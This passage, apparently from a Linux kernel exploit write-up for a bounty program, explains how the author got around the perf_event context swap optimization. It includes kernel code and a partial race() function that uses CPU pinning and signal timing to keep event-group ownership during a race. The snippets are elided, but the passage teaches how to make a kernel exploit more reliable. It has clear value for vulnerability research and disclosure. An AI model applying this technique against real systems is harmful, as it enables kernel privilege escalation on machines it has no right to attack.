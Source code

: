 ### Bypassing context swap optimization
An exploit for mitigation instance with over 70% reliability is eligible. 
At first I didn't care about context swap optimization, but the reliability of my exploit was about 10~20% and it took about 3~4hrs to run.
Since my exploit is for mitigation instance, it was not eligible.

The function `perf_event_context_sched_out()` is invoked by the task scheduler during context switches:
```c
static void perf_event_context_sched_out(struct task_struct *task, int ctxn,
                                         struct task_struct *next)
{
  [...]
		if (context_equiv(ctx, next_ctx)) {
      [...]
			WRITE_ONCE(ctx->task, next);
			WRITE_ONCE(next_ctx->task, task);
            [...]
			RCU_INIT_POINTER(task->perf_event_ctxp[ctxn], next_ctx);
			RCU_INIT_POINTER(next->perf_event_ctxp[ctxn], ctx);

			do_switch = 0;

			perf_event_sync_stat(ctx, next_ctx);
		}
  [...]
}
```
This function swaps ctx between two tasks under the following conditions:
```
- child task -> parent task 
- parent task -> child task 
- child task -> child task 
```
Crucially, both tasks must belong to the same group, and their group composition must be identical. 
Because the scheduler's behavior is almost impossible to predict, I needed to find a way to work around this limitation.
Specifically, this swap optimization can be circumvented through techniques like CPU core pinning to fix process execution locations, or by intentionally altering group compositions to make such optimizations impossible to implement effectively.
The following code demonstrates these implementation strategies:
```c
void race(int group_leader) { // caller must have ownership of the event group
    [...]
    else if (child_pid > 0) { // parent

        race_layout_index += 2;
        int tmp = perf_event_open(&pe, 0, CPU_A, -1, 0); 
        close(tmp);
        // this code seems useless but, this ensure that the process's ctx is no longer get swapped by scheduler.
        // it's very important because the ownership of the group can be destroyed while child process exits.
        // we have to keep the ownership away from being destroyed.
        usleep(20000);
        kill(child_pid, SIGCONT); // now we pinned the ownership. now child process is allowed to exit.
    [...]
    }
}
```
